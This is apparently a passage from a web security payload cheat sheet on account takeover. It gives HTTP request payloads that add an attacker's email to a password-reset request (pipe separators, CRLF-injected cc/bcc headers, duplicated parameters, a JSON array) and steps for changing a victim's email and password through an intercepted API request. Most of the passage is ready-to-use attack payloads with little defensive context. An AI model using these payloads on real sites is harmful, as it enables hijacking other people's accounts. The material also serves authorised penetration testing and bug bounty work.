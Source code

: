 * Add attacker email as second parameter using |

```php
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```

* Add attacker email as second parameter using cc

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

* Add attacker email as second parameter using bcc

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```

* Add attacker email as second parameter using ,

```php
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```

* Add attacker email as second parameter in json array

```php
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```

### Reference

* https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be
* https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/
* https://twitter.com/HusseiN98D/status/1254888748216655872

## Changing Email And Password of any User through API Parameters

### Exploitation

* Attacker have to login with their account and Go to the Change password function
* Start the Burp Suite and Intercept the request
* After intercepting the request sent it to repeater and modify parameters Email and Password

```php
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})
```
